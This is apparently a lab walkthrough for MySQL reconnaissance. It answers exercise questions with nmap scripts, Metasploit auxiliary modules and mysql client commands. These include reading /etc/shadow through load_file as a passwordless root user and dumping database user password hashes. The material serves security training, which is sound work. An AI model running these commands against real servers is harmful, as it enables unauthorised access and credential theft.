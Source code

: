 
MySQL Recon: Basics

1.  What is the version of MySQL server?
```
nmap [ip] -sV -sC
```
- MySQL 5.5.62-0ubuntu0.14.04.1

3.  What command is used to connect to remote MySQL database?
```
mysql -u [username] -h [ip] -p
```

5.  How many databases are present on the database server?
```
show databases;
```

7.  How many records are present in table “authors”? This table is present inside the “books” database.
```
use books;

select * from authors;
```

9.  Dump the schema of all databases from the server using suitable metasploit module?
```
auxiliary(scanner/mysql/mysql_schemadump) // also provides a .txt file with it;
```

11.  How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
```
auxiliary(scanner/mysql/mysql_writable_dirs)

```

13.  How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
```
auxiliary(scanner/mysql/mysql_file_enum)

```

15.  Find the system password hash for user "root".
```
mysql -u root -h [id]
select load_file('/etc/shadow');
```

17.  How many database users are present on the database server? Lists their names and password hashes.
```
auxiliary(scanner/mysql/mysql_hashdump)
```

19.  Check whether anonymous login is allowed on MySQL Server.
```
mysql -h 192.82.22.3

nmap [ip] -p 3306 --script=mysql-empty-password
```

21.  Check whether “InteractiveClient” capability is supported on the MySQL server.
```
nmap 192.12.132.3 -p 3306 --script=mysql-info
```

23.  Enumerate the users present on MySQL database server using mysql-users nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-users --script-args="mysqluser=root,mysqlpass=''"
```

25.  List all databases stored on the MySQL Server using nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-databases --script-args="mysqluser=root,mysqlpass=''"
```

27.  Find the data directory used by mysql server using nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-variables --script-args="mysqluser=root,mysqlpass=''"
```

29.  Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-audit --script-args="mysql-audit.username=root,mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```
31.  Dump all user hashes using  nmap script.
```
nmap --script mysql-dump-hashes --script-args='username=root,password=""' -p 3306 192.12.132.3
```
33.  Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.
```
nmap --script mysql-query --script-args="query ='select * from books.authors;'username=root,password=""' -p 3306 192.12.132.3
```